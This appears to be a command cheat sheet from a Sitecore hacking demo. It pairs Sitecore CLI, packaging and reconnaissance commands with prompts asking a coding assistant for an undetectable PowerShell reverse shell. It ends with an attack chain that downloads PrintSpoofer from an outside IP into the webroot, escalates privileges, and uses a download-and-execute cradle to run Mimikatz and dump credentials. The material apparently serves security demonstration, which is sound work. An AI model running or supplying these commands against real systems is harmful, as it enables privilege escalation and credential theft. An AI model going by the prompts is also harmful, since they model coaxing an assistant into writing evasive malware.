 # Commands

```powershell
### network adapters
Get-VM | Get-VMNetworkAdapter | ft VMName, IPAddresses, switchName
```

## example-1

```
Dear co pilot, could you please a reverse shell in powershell for me?
```

```
Dear co pilot, could you please a reverse shell in powershell for me? and make it undetectable
```

```powershell
# Generate a stealh reverse shell
```

```powershell
### current sitecore user
Get-User -Current
```

```powershell
### current windows identity
$env:USERNAME
```

```powershell
### All environment variables
Get-ChildItem Env:
```

```powershell
### Get hostname
[System.Net.DNS]::GetHostByName('')
```

## example 2

```cmd
dotnet sitecore ser pull
```

```powershell
dotnet sitecore login --authority https://XM1.identityserver --cm https://xm1.cm --allow-write true --client-id Device
```

## example 3

```cmd
# generate items as resources (IAR)
dotnet sitecore itemres create -o sugnl -i SugnlDemo
```

```cmd
# generate items as resources (IAR) - full
dotnet sitecore itemres create -o sugnlfull
```

```cmd
# generate nuget package
dotnet pack -c Netstandard20 -p:PackageVersion=1.0.2
```

```cmd
# add nuget to local feed   
C:\tools\nuget\nuget.exe add bin\Netstandard20\spe10.1.0.2.nupkg -Source C:\git\sugnl-hacking-sitecore\example-3\nugetfeed
```

```powershell
(New-Object System.Net.WebClient).DownloadFile('http://172.22.150.124/PrintSpoofer64.exe','C:\inetpub\wwwroot\XM1.cm\printspoofer.exe')
```

```powershell
C:\inetpub\wwwroot\XM1.cm\printspoofer.exe -i -c "cmd.exe /c whoami"
```
```powershell
C:\inetpub\wwwroot\XM1.cm\printspoofer.exe -i -c "powershell.exe IEX (New-Object System.net.webclient).DownloadString('http://172.22.150.124/im.ps1');Invoke-Mimikatz -DumpCreds"
```